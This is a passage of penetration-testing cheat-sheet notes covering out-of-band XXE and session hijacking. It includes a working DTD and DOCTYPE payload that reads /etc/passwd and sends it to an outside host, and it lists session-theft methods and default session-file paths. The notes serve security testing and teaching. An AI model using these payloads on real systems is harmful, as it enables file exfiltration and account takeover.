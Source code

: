 Spaces, `<`, `>`, `|`, `{`, `}`, ... break the XML syntax - avoid them!

**Out of band XXE:**

Useful in a total blind situation where we see no reflected data and no error messages.

We need to provide a DTD:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY badstuff SYSTEM 'https://pentest-experts.com/get_data.php?content=%file;'>">
```

Then we need a XXE injection code:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "https://pentest-experts.com/xxe.dtd">
  %remote;
  %oob;
]>
```

... which we trigger by using `&badstuff;` in the XML document, which is defined in the DTD file.

**Tools:**

 - https://github.com/enjoiz/XXEinjector 


## Session attacks

Sessions use some form of identification to tie different HTTP requests together. This Identifier can be a:

 - GET parameter / argument
 - POST parameter / argument
 - Cookie / Web-Storage
 - Proprietary solution

#### Session Hijacking

 - XSS to get session identifiers (if Cookie is not `HTTPOnly`) 
 - CSRF to perform some action on behalf of the vistim
 - Browser histroy or logs can contain session identifiers
 - Traffic sniffing can reveal session identifiers
 - Bruteforce in case the session identifier has no sufficient randomness
 - From disk of the webserver 
   - PHP stores session in files - location is defined in `session.save_path` in `php.ini`  
     Default: `/var/lib/php/sessions/sess_[SESSIONID]`
   - Tomcat stores session in the file `SESSIONS.ser`
   - .NET stores session in:
     - the application worker process (aspnet_wp.exe), when using InProc Session mode
     - a StateServer (a Windows Service), when using OutProc Session mode
     - a SQL database

#### Session Fixation
